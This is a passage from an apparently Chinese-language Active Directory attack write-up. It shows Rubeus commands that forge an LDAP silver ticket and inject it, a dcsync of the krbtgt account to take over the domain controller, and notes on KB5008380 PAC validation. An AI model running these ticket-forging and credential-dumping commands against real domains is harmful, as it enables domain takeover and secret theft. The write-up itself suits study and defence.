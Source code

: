 如果 cifs 服务不可用，可以使用域控一定开放的 ldap 服务，然后导入票据执行 dcsync 再次打下域控：

```bash
Rubeus.exe silver /service:ldap/ad.endlessparadox.com /rc4:c783a03c8f07f1d75c2b741cd93fe8c0 /user:satoru /domain:ad.endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

```bash
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:d·····
```

```bash
dcsync endlessparadox.com endlessparadox\krbtgt
```

[![](assets/1707953845-77538dc43ffd596ee32da1e2ccd0f896.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040737-356cd3e6-c462-1.png)

### KB5008380 身份验证更新

这个补丁为了解决[CVE-2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)引入了新的身份验证过程，在 2021 年 11 月 9 日至 2022 年 6 月 14 日之间发布的 Windows 更新中安装 CVE-2021-42287 保护后出现了个新的注册表：

```bash
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc
```

默认情况下为 1，进行身份验证时，如果用户拥有新的 PAC，则该 PAC 会被验证。如果用户没有新的 PAC，则不会采取进一步的操作，如果为 2，用户没有新的 PAC，则身份验证将被拒绝；

2022 年 7 月 12 日或更高版本更新后，该值将不存在，用户要通过认证必须要使用新的 PAC；PAC 增加了两个数据结构 PAC\_ATTRIBUTES\_INFO 和 PAC\_REQUESTOR：

```bash
typedef struct _PAC_ATTRIBUTES_INFO {
     ULONG FlagsLength;                // specified in bits
     ULONG Flags[ANYSIZE_ARRAY];
 } PAC_ATTRIBUTES_INFO, *PPAC_ATTRIBUTES_INFO;
```

